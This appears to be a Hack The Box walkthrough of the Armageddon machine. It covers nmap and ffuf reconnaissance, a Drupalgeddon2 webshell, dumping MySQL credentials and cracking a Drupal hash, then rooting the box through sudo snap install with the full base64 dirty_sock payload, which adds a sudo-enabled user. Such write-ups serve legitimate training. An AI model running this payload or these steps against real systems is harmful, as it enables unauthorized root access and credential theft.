

# Box 


https://www.hackthebox.eu/home/machines/profile/323

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.233 10.10.10.233
```



Let's check the website. 


I found nothing. I used `ffuf` to do discovery listing and found some accessible folders : 


I enumerated manually and found a `settings.php`.


Well, we can't read it but I think it will be interesting on the future. 

I started Burp to see the headers. 


There is somehting that I've never seen. Let's search for `Drupal 7`


## Exploitation

I think we got our exploit. 

This is the exploit I found `https://github.com/dreadlocked/Drupalgeddon2`


We got a webshell

### Post-Exploitation

### User

Remember the `settings.php` file ? Let's take a look now.

```bash
cat sites/default/settings.php
```


We have mysql creds. Let's use it to have our hash to crack.

| User       | Password         | Database |
| ---------- | ---------------- | -------- |
| drupaluser | CQHEy@9M*m23gBVj | drupal   |

By using this  command we can get all the tables : 

```bash
mysql --username=drupaluser --password=CQHEy@9M*m23gBVj drupal -e "select * from users"
```


We have 3 potential informations.

| User              | Hash                                                    | Mail                |
| ----------------- | ------------------------------------------------------- | ------------------- |
| brucetherealadmin | $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt | admin@armageddon.eu |

If you use `hashcat --example-hashes` you can find what kind of hash it is : 


Let's try to crack it  with `hashcat` :

```bash
hashcat -a 0 -m 7900 hash /usr/share/wordlists/rockyou.txt -o out.txt 
```


We can try to login as `brucetherealadmin`.


We got user!

To root.

### Root

Let's do the classical `sudo -l`:


I took way toooooo much time on this. I have tried to create my own snap from scratch, to inject code, but nothing worked. 

When searching for exploit I found https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html.

I didn't read it at all because our version is 2.47.1 but it was a huge mistake. 


Since we can run sudo on the snap install we can use the `TROJAN_SNAP` on the second exploit to get a root shell. Let's download the repository and get the payload to a snap file.

```bash
python -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A"*4256 + "=="' | base64 -d > payload.snap
```

Upload your payload to the remote machine.

```bash
sudo /usr/bin/snap install payload.snap  --devmode --dangerous 
```

You should havea new user in `/etc/passwd`.


Log in as `dirty_sock`using :

| User       | Password   |
| ---------- | ---------- |
| dirty_sock | dirty_sock |

You should have sudo right and be able to `sudo su -`.


And you should have your shell.


Rooted.